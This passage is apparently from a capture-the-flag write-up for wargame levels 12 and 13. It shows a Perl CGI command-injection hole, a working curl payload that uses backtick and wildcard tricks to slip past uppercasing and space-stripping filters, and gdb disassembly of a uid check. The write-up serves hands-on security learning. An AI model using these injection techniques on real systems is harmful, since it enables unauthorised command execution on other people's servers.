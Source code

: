 ```perl
        print("..");
    } else {
        print(".");
    }    
}

n(t(param("x"), param("y")));
```

It will display one or two dots depending on the values of x and y. The vulnerability is quite clear, there is a command run with backticks: `` `egrep "^$xx" /tmp/xd 2>&1` ``. We can focus on the important parts.

```perl
#!/usr/bin/env perl
use CGI qw{param};
$x = param("x");
$x =~ tr/a-z/A-Z/; 
$x =~ s/\s.*//;
@output = `egrep "^$x" /tmp/xd 2>&1`;
```

The difficulty lies in the fact that our `x` parameter will be put in uppercase and everything after the first space will be removed. Naively injecting `` `getflag | wall` `` won't work.

`bash` variables can be written in octal notation, which doesn't use any lowercase letter or space. We could execute `getflag | wall` like that: `G=$'\147\145\164\146\154\141\147';W=$'\167\141\154\154';$G|$W`. Thinking that the semicolons were the problem, we put `getflag | wall` in `/tmp/REKT` and tried to encode `tmp`. Still didn't work. It turns out Perl executes `sh`, which doesn't allow the octal notation.

We still had our `/tmp/REKT` file and had to find a way to execute it without writing `tmp` explicitly. This is when wildcards came to mind.

```bash
$ echo 'getflag | wall' > /tmp/REKT
$ chmod +x /tmp/REKT
$ curl 'http://localhost:4646?x=`/*/REKT`'
```

## level13

Once again a reverse-engineering challenge. Launching the program gives `UID 2013 started us but we we expect 4242`. We we need to avoid the uid check somehow.

```
$ gdb ./level13
(gdb) break main
(gdb) run
(gdb) disassemble
Dump of assembler code for function main:
   0x0804858c <+0>:     push   %ebp
   0x0804858d <+1>:     mov    %esp,%ebp
   0x0804858f <+3>:     and    $0xfffffff0,%esp
   0x08048592 <+6>:     sub    $0x10,%esp
   0x08048595 <+9>:     call   0x8048380 <getuid@plt>
   0x0804859a <+14>:    cmp    $0x1092,%eax
   0x0804859f <+19>:    je     0x80485cb <main+63>
   0x080485a1 <+21>:    call   0x8048380 <getuid@plt>
   0x080485a6 <+26>:    mov    $0x80486c8,%edx
   0x080485ab <+31>:    movl   $0x1092,0x8(%esp)
   0x080485b3 <+39>:    mov    %eax,0x4(%esp)
   0x080485b7 <+43>:    mov    %edx,(%esp)
   0x080485ba <+46>:    call   0x8048360 <printf@plt>
   0x080485bf <+51>:    movl   $0x1,(%esp)
   0x080485c6 <+58>:    call   0x80483a0 <exit@plt>
   0x080485cb <+63>:    movl   $0x80486ef,(%esp)
```